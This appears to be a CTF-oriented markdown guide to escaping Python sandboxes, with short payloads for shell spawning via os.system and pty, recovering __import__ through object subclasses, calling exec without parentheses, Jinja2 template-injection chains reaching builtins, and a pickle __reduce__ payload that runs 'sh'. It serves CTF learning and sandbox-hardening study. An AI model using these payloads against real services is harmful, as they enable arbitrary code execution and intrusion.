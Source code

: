 # The Definitive Guide to Pyjails

## Introduction

A PyJail, or Python Jail, refers to a restricted Python environment designed to limit the capabilities of code executed within it. It is commonly encountered in Capture The Flag (CTF) challenges and security exercises, where the goal is to "escape" the jail and achieve a higher level of access or control, often by accessing restricted functions.

---
## Traditional Pyjails

### Unicode bypass 😈😈😈
Probably the most straightforward way of escaping a pyjail if a SKID wrote it.  

Python normalises italics for some reason, but the characters don't match your normal ASCII table, so standard blacklists can be easily bypassed.  

Note that symbols still remain the same.  

https://lingojam.com/ItalicTextGenerator

### Helpful builtins

`eval()`, `exec()`, `compile()`: execute arbitrary code

### Spawning shells / running system commands

Shell commands: `sh`, `python3`

Helpful functions:
- `os.system()`: probably the most well-known method     
- `subprocess.call()`, `subprocess.run()`: allows you to spawn shells
- `os.popen().read()`, `subprocess.Popen()`, `subprocess.check_output()`: runs commands and returns the output
- `pty.spawn()`: lesser known but still helpful!

Debug mode: `breakpoint()`, `__import__('sys').breakpointhook()`, `pdb.set_trace()`
- starts a python debugger

Python Interactive mode
- `code.interact()`: launches a Python shell
- `os.environ["PYTHONINSPECT"] = "1"`: launches a Python shell when your script finishes execution

### Reading files
`open('flag.txt').read()` (H2 computing doesn't recommend this)

But what if `print()` isn't available...?
- `help()`, `exit()`, `quit()`: essentially `print()`

But what if `read()` isn't accessible? Redirect to `stderr`!
1. unpack your file object into a string: `*open('flag.txt')`
2. then run a faulty conversion!: `int()`, `float()`, `complex()`

### No builtins???
Some pyjails may (attempt to) remove `__builtins__` entirely as shown below.  

```python
eval(code, {"__builtins__": None})
```

Luckily, we can still bypass this! 

```python
().__class__.__base__.__subclasses__()
```

This essentially accesses all subclasses that inherit from the `object` class (ie. EVERY class defined in Python!)

From here, we can access previously restricted functions through some helpful classes.

Here, we access the `warnings` base class from the `catch_warnings` subclass, from which we can then call the `__import__` function.  
```python
[c for c in ().__class__.__base__.__subclasses__() if "catch" in c.__name__][0]()._module.__builtins__["__import__"]
```

We can even directly read variables by overwriting the `sys` module's exception handler to output all global variables.  

```python
(s:=[c for c in ().__class__.__base__.__subclasses__() if 'wrap_close' in c.__name__][0].__init__.__globals__['sys'], s.__setattr__('excepthook', lambda *a: s.stdout.write(a[2].tb_frame.f_globals.__str__())), a)
```

### NO PARENTHESES??? 💔💔💔
Probably the most troublesome to bypass...  
Luckily, you can chain decorators to a dummy class to invoke functions without parentheses!

```python
@exec
@input
class C:
    ...
```

### NUKED BUILTINS 😱😱😱
Setting a `__builtins__` function to `None` completely removes the global reference to it (eg. `__builtins__.eval = None`)  

Honestly nothing you can do about it brotato chip ✌🥀, just find another entry point.  

### More stuff
Dynamically accessing attributes
- `getattr()`: for objects
- `__getitem__()`: for dictionaries

Octal encoding
- bypass blacklists within your strings!
- eg: `'\146\154\141\147.txt'` -> `'flag.txt'`

Assigning variables
- the walrus operator treats an assignment as an expression
- only works for variables (no attribute assignment)
- eg: `a:=1`

---
## SSTI

In some Web challenges, you might see a vulnerability like this.  

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "POST":
        return render_template_string(f"Hello {request.form['name']}!")
    else:
        return '''
            <form method="POST">
                Name: <input type="text" name="name">
                <input type="submit" value="Greet">
            </form>
        '''
```

The vulnerability lies in the way the webpage is rendered when the POST request is received. The `f-string` can be abused to retrieve `__builtins__` through Jinja2 introspection.  

```
{{ self.__init__.__globals__.__builtins__ }}
```

Jinja2 also has a special variable `request`, which refers to the current request being processed and can also be abused to access `__builtins__`

```
{{ request.application.__globals__.__builtins__ }}
```

An obfuscated way of achieving the above would be using Jinja2's `|` operator, which allows us to pipe the results of filters.  

This is particularly useful if characters like `.` are blacklisted.  

```python
{{ self | attr('__init__') | attr('__globals__') | attr('__getitem__')('__builtins__') }}
```

---
## Pickle
Pickle has a pretty well-known RCE exploit that allows you to run arbitrary commands on deserialisation.  

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('sh',))

payload = pickle.dumps(Exploit())
```

### Pickle RCE blacklist??? 😱😱😱
Once a blacklist is introduced, things won't be as straightforward.  
Luckily, we can use [Pickora](https://github.com/splitline/Pickora) to convert our obfuscated Python code to Pickle bytecode.  

Read [this article](https://github.com/maurosoria/dirsearch/issues/1073) for more info.  